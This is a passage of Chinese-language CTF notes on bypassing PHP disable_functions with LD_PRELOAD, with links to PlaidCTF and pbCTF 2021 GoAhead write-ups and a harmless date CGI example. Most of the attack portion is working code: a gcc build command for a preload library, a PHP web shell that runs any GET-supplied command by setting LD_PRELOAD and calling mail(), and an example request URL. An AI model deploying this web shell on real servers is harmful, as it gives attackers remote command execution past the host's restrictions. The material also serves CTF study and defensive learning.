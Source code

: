 ```bash
$ gcc -shared -fPIC bypass_disablefunc.c -o bypass_disablefunc.so
```

```php
<?php
    echo "<p> <b>example</b>: http://site.com/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so </p>";
    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";
    putenv("EVIL_CMDLINE=" . $evil_cmdline);
    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);
    mail("", "", "", "");
    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>";
    unlink($out_path);
?>
```

```
url/test.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/html/test.so
```

这个属于格局打开，不局限于劫持某个函数，而是通过preload拦截启动进程

## in CTF

### [PlaidCTF 2021]

[wp](https://luker983.github.io/blog/2021-04-26-Embedded-Webserver-Null-Byte-Injection/)

### [pbCTF 2021]Advancement

[wp](https://articles.zsxq.com/id_xipxbpei4eti.html)  |  [wp2](https://ahmed-belkahla.me/post/2-methods-rce-0-day-in-goahead-webserver-pbctf-2021/)  |  [HACKING WITH ENVIRONMENT VARIABLES  Interesting environment variables to supply to scripting language interpreters](https://www.elttam.com/blog/env/)

是GoAhead框架，在route.txt中增加cgi路由

```
route uri=/cgi-bin handler=cgi
route uri=/ redirect=/cgi-bin/date handler=redirect
```

以及/cgi-bin下的cgi脚本

```python
#!/usr/bin/env python3

from datetime import date

print("Content-Type: text/plain")
print()

today = date.today()
print("Today's date:", today)
```
